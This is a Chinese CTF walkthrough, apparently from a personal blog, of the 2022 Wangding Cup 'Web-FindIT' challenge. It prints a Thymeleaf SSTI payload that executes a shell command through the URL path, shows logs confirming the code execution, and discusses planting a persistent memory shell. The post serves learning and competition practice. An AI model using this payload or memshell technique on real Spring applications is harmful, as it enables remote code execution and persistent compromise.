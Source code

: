 ```yaml
---
layout: about
category: about
toc: true
wrench: 2022-12-12
Researchname: 2022年网鼎杯玄武组赛题复盘-[Web-FindIT]
author: Bin4xin
permalink: /about/WANGDINGCTF2022-WEB-FindIT-Walkthrough/
desc: 「CTF」
---
```


## Web-FindIT赛题复盘

本文主要参考《2022 网鼎杯玄武组-you can find it 题解—Spring通用MemShell改造》参考进行复盘；

实际上我们一开始拿到jar包也是尝试几个路由是否存在`SSTI`漏洞，不过CTF基本上通用的payload[^1]基本上是不生效的：

![2022-09-21-10.46.42.png]({{site.PicturesLinks_Domain}}/images/2022/09/21/2022-09-21-10.46.42.png)

### # SSTI payload及绕过复现

我们直接把payload[^2]拿过来：

```
/doc/;/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22id%22)%7D__::main.x
```

可以看到console报错`UnixProcess`说明命令注入成功了的：

```console
2022-09-22 06:50:03.785  INFO 1 --- [nio-8080-exec-2] c.e.demo.controller.IndexController      : info: __${T (java.lang.Runtime).getRuntime().exec("id")}__::main.x
2022-09-22 06:50:04.004 ERROR 1 --- [nio-8080-exec-2] org.thymeleaf.TemplateEngine             : [THYMELEAF][http-nio-8080-exec-2] Exception processing template "doc/java.lang.UNIXProcess@1331b3c8::[main]": Error resolving template [doc/java.lang.UNIXProcess@1331b3c8], template might not exist or might not be accessible by any of the configured Template Resolvers

org.thymeleaf.exceptions.TemplateInputException: Error resolving template [doc/java.lang.UNIXProcess@1331b3c8], template might not exist or might not be accessible by any of the configured Template Resolvers
```

不过我们同样尝试写入payload注入内存马时却报错

![2022-09-22-15.13.04.png]({{site.PicturesLinks_Domain}}/images/2022/09/22/2022-09-22-15.13.04.png)

我们观察一下发现和之前的console报错时不一样的：

```console
Error resolving template [doc/java.lang.UNIXProcess@1331b3c8]
```

成功应该是注入代码成功被识别成模版，然后汇报模版解析过程的问题（如上）；而失败则并未被识别成模版（如下）：

```console
java.lang.IllegalArgumentException: Invalid template name specification:
```

不过通过以上的payload确实是可以成功RCE的：

![2022-12-02-10.47.59.png]({{site.PicturesLinks_Domain}}/images/2022/12/02/2022-12-02-10.47.59.png)


我们需要根据参考2生成内存马，实现效果如下：

![image.png]({{site.PicturesLinks_Domain}}/images/2022/12/02/image.png)

所以下一步是需要根据payload生成持久化的shell[^3]，因为机器不出网，且没有回显；

所以我们尝试搞清楚：

- 1.用了`@ResponseBody`注解的路由，不存在漏洞；
- 2.没有使用`@ResponseBody`进行注解的路由，因此即使没有`return`情况下也是可注入的。

如果

### # @ResponseBody

我们找到了官方文档[^4]一些大牛的解答，就不在这里班门弄斧了，引用《Thymeleaf SSTI漏洞分析》参考原文[^5]：

- 问题1：

> 配置了ResponseBody注解确实无法触发，经过调试在`applyDefaultViewName`中`ModelAndView`是`Null`，而非`ModelAndView`对象，所以
>
> `hasView()`会异常，不会设置视图名。

更多移步[配置ResponseBody或RestController注解](https://xz.aliyun.com/t/10514#toc-13){:target="_blank"}

- 问题2：

> [引用参考文章第四章](https://xz.aliyun.com/t/10514#toc-5){:target="_blank"}分析了`SpingMVC`视图解析的过程，在解析视图首先获取返回值并封
>
> 装为`ModleAndView`，而在当前当前环境中并没有返回值，按理说`ModelAndView`应该为空，为什么还能正常得到`ModleAndView`呢？
>
> 原因主要在`DispatcherServlet#doDispatch`中，获取ModleAndView后还会执行`applyDefaultViewName`方法。

更多移步[urlPath中传入Payload可以执行](https://xz.aliyun.com/t/10514#toc-11){:target="_blank"}


## 参考

[^1]: [Thymeleaf 模板注入命令执行](https://zhuanlan.zhihu.com/p/248416919){:target="_blank"}
[^2]: [2022 网鼎杯玄武组-you can find it 题解—Spring通用MemShell改造](https://xz.aliyun.com/t/11688){:target="_blank"}
[^3]: [CTF-you-can-find-it (2022 网鼎杯 玄武组 web ctf thymeleaf SSTI bypass and memshell to retrive flag)](https://github.com/testivy/wangding_2022_ctf_findit){:target="_blank"}
[^4]: [Thymeleaf 3.0.12 — Release Notes](https://www.thymeleaf.org/releasenotes.html#thymeleaf-3.0.12){:target="_blank"}
[^5]: [Thymeleaf SSTI漏洞分析](https://xz.aliyun.com/t/10514){:target="_blank"}